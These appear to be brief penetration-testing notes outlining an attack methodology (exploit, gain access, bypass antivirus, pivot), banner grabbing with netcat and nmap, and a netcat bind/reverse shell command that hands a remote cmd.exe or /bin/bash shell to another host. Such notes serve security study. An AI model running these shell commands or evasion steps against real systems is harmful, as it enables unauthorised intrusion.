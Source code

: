packetstormsecurity.com - latest vuln news

1. identify vulnerable services
2. identify & prepare exploit code
3. Gain access (msf or manual)
4. obtain remote access on target
5. bypass av detection
6. pivot

Banner Grabbing
=
netcat
nmap
attempting authentication with a service that supports authentication

## nmap
`--script banner`

Bind/Reverse Shell
=

## Netcat

nc -nv ip port -e cmd.exe
	-c /bin/bash - linux shell